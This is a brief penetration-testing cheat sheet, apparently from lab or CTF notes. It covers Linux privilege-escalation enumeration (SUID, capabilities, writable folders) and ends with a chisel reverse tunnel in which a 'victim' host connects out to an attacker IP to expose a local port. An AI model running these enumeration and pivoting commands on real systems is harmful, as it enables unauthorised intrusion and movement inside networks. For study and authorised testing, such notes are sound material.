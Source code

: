 ### LinPeas

<https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

## Enum

### List SUID files

```sh
find / -perm /4000 2>/dev/null
```

### List capabilities files

```sh
getcap -r / 2>/dev/null
```

### List writable folders

```sh
find / -type d -writable 2> /dev/null
```

### List of executable binaries

```sh
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
```

### Netcat

```sh
netcat -l
```

If 127.0.0.1:6666

- On attacker

```sh
apt-get install chisel
# Copy chisel to victim
chisel server --reverse --port 9002
```

- On victim

```sh
./chisel client 10.9.129.247:9002 R:9001:127.0.0.1:6666
```

- On attacker, go to `localhost:9001`

## SSH
